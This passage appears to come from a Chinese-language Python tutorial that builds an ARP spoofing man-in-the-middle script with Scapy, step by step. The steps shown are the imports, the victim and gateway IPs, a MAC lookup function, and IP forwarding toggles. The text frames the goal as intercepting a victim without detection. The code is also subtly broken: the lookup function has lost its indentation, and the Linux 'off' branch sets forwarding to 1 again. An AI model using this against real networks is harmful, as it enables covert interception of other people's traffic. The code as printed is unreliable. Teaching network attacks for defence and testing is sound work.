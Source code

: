 1.  像往常一样，导入所需的模块：

```py
from scapy.all import *
import os
import time
import sys  
```

在这里，我们导入 Scapy 以及所需的`os`、`time`和`sys`模块，这些模块在脚本中是必需的。

1.  现在我们必须为脚本定义变量。我们可以使用 Python 2.x 中的`raw_input`方法或 Python 3.x 中的`input()`来获取变量的详细信息，而不是在脚本中定义它：

```py
interface = "en0"
source_ip = "192.168.1.1"
destination_ip = "192.168.1.33"  
```

1.  由于我们必须获取源和目的地的 MAC 地址以构建 ARP 响应，我们将使用 ARP 请求请求两者，并解析响应以获取 MAC 地址。现在我们必须创建一个函数来获取 MAC 地址：

```py
def getMAC(IP, interface):
answerd, unanswered = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = IP), timeout = 5, iface=interface, inter = 0.1)    
for send,recieve in answerd:
return recieve.sprintf(r"%Ether.src%")  
```

这将返回调用此函数时提供的 IP 的 MAC 地址

1.  现在我们将创建一个函数来切换 IP 转发。这在 Linux 和 macOS 上是不同的：

+   对于 macOS：

```py
def setIPForwarding(set): 
    if set:
        #for OSX
        os.system('sysctl -w net.inet.ip.forwarding=1')
    else:
        #for OSX
        os.system('sysctl -w net.inet.ip.forwarding=0') 
```

+   +   对于 Linux：

```py
def setIPForwarding(set):
    if set:
        #for Linux
        os.system('echo 1 > /proc/sys/net/ipv4/ip_forward')
    else:
        #for Linux
        os.system('echo 1 > /proc/sys/net/ipv4/ip_forward')
```

1.  现在我们必须编写另一个函数来重新建立受害者和源之间的连接。这是为了确保受害者不会发现拦截：
